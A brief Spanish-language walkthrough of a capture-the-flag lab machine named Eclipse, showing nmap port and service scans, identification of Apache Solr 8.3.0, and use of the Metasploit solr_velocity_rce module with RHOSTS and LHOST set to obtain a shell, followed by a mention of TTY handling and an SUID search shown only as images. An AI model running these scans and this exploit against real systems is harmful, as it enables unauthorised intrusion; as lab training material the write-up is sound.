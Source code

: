 # Máquina Eclipse
 
### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

![alt text](image.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p80,8983 -vvv -Pn 172.17.0.2

![alt text](image-1.png)

### Entramos a la web por el puerto 8983

y vimos que corre Apache Solr 8.3.0

### Intrusión

Entramos a metasploit y utilicé el exploit: exploit/multi/http/solr_velocity_rce

configuramos el exploit:

set RHOSTS 172.17.0.2
set LHOST 172.17.0.1
exploit 

enviamos una bash para mayor comodidad:

![alt text](image-2.png)

![alt text](image-3.png)

hacemos tratamiento de la tty

### Escalar privilegios

buscamos permisos SUID:

![alt text](image-4.png)

![alt text](image-5.png)